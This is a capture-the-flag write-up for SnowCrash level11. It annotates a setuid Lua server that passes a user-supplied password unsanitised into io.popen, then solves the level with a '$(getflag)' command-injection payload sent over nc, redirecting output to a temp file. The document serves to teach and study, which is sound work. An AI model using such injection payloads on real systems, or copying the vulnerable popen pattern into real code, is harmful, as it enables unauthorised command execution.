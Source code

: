 # Level11

## Research

```bash
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

Study level11.lua:
```lua
#!/usr/bin/env lua
local socket = require("socket")
-- bind() associates the socket with its local address [that's why server side binds, 
-- so that clients can use that address to connect to server.] connect() is used to 
-- connect to a remote [server] address, that's why is client side, connect [read as: 
-- connect to server] is used.
local server = assert(socket.bind("127.0.0.1", 5151))

-- Seems to hash a password then return hash
function hash(pass)
  -- io.popen : 
  -- open a process that you can read from (mode 'r') OR write to (mode 'w') 
  -- through standard pipes (stdin, stdout)
  -- starts program prog in a separated process and returns a file handle that you 
  -- can use to read data from this program (if mode is "r", the default) or to write 
  -- data to this program (if mode is "w").
  -- sha1sum : 
  -- sha1sum is a computer program that calculates and verifies SHA-1 hashes. t print or check 
  -- SHA1 (160-bit) checksums. With no FILE, or when FILE is -, read standard input. 
  -- A checksum (or hash) is a sequence of numbers and letters used to check data for errors. If you know the checksum
  -- of an original file, you can use a checksum utility to confirm your copy is identical.
  -- To produce a checksum, you run a program that puts that file through an algorithm. Typical algorithms 
  -- used for this include MD5, SHA-1, SHA-256, and SHA-512.
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  -- read("*all") reads the whole current input file
  data = prog:read("*all")
  prog:close()
  -- takes a part of data and return it
  data = string.sub(data, 1, 40)
  return data
end

while 1 do
    local client = server:accept()
    client:send("Password: ")
    client:settimeout(60)
    -- err is error string if something went wrong (like timeout)
    -- l is the return of receive(), surely the strings the client entered aka password
    local l, err = client:receive()
  if not err then
      print("trying " .. l)
      --   sends client's attempted password to hash function
      local h = hash(l)
      -- the hash we are looking for is this one (~= stands for !=)
      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          -- you dumb because idk
          client:send("Gz you dumb*\n")
      end
  end
  client:close()
end
```


A server seems to be server set up on our localhost on port 5151. It will ask for a passord, will sends this password in a hash function, will apply a sha1sum on it, will return the 40 first characters of it, and will do a useless `if else` condition.

`prog = io.popen("echo "..pass.." | sha1sum", "r")` </br>
`The popen() function opens a process by creating a pipe, forking, and invoking the shell.`</br>
https://linux.die.net/man/3/popen</br>

popen is known for its vunerability to command injections, as it will execute code (see below). </br>
https://www.stigviewer.com/stig/application_security_and_development/2018-12-24/finding/V-70261

So io.popen starts a program in a separated process and returns a file handle that you can use to read data from this program or to write data to this program.

So the program level11.lua will execute `echo "..pass.." | sha1sum`. We saw in a previous level that echo with double quote will execute any command which is written like this `$(command)`.


## Solution

So we should listen to the port 5151: </br>
`nc localhost 5151`</br>
`Password: $(getflag)`</br>
don't return the flag.

Maybe on a different file: </br>
`nc localhost 5151`</br>
`Password: $(getflag) > /tmp/oui`</br>
`cat /tmp/oui` gives us the flag.

